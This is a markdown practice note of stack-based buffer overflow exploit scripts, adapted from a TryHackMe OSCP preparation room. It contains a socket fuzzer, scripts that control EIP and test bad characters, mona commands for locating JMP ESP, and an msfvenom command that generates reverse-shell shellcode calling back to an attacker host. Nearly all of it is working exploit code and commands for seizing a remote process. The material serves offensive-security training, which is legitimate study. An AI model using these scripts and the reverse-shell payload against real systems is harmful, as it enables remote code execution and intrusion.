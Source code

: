 # Stackbased Buffer Overflow Scripts

Original adapted from: [Tiberious's OSCP BOF THM Room](https://tryhackme.com/room/bufferoverflowprep) using [[Mona]] and [[Immunity Debugger]], I will add more [[Reverse-Engineering-Tools]] versions just as I practice Buffer Overflows for different OS hosted applications

## fuzzer.py
```python
#!/usr/bin/env python3

import socket, time, sys

ip = ""

port = 1337
timeout = 5
prefix = "OVERFLOW1 "
prefix_size = len(prefix)
fuzzstring = f"{prefix}{'A' * 100}"
fuzzstring_size = len(fuzzstring)

while True:
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(timeout)
            s.connect((ip, port))
            s.recv(1024)
            print(f"Fuzzing with {fuzzstring_size - prefix_size} bytes")
            s.send(bytes(fuzzstring, "latin-1"))
            s.recv(1024)
    except:
        print(f"Fuzzing crashed at {fuzzstring_size - prefix_size} bytes")
        sys.exit(0)
    fuzzstring += f"{100 * 'A'}"
    fuzzstring_size += 100
    time.sleep(1)
```


## crash_replication_control_eip.py

Adapted from: [Tiberious's OSCP BOF THM Room](https://tryhackme.com/room/bufferoverflowprep)

Supplimentary comands:
```bash
msf-pattern_create -l $msf_pattern_create_amount
# place in payload variable
```

```python
import socket

ip = ""
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = f"{'A' * offset}"
retn = ""
padding = "" 
payload = "" # Enumerate with msf-create_pattern
postfix = ""

buffer = f"{prefix}{overflow}{retn}{padding}{payload}{postfix}"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except:
    print("Could not connect.")

```


```batch
!mona findmsp -distance $msf_pattern_create_amount
```
Mona should display a log window, if not `Window -> Log Data` if succesful it will state:
`EIP contains normal pattern : 0xaddress (offset xxxx)

## badCharGen.py
```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
Output for convience
```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

Generate a bytearray using mona, and exclude the null byte (\\x00) by default
```
!mona bytearray -b "\x00"
```

Before sending the follow script make a note of register ESP points to set `$ESP_Original_Address

```python
import socket

ip = ""
port = 1337

prefix = "OVERFLOW1 "
badchars = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

buffer = f"{badchars}"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except:
    print("Could not connect.")

```

Mona can show Memory comparison results 
```
!mona compare -f C:\mona\oscp\bytearray.bin -a $ESP_Original_Address
```

Add the bad character to some list and remove from the payload a repeat..


## Find a JMP ESP

Immunity Debugger and mona
```
!mona jmp -r esp -cpb $blacklisted_badchar
```

EDB 
```
Plugins -> OpCodeSearcher -> Opcode Search 
```

## Shellcode

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$lhost LPORT=$lport -b "\x00\x20" -f py -v shellcode # -v for variable name
```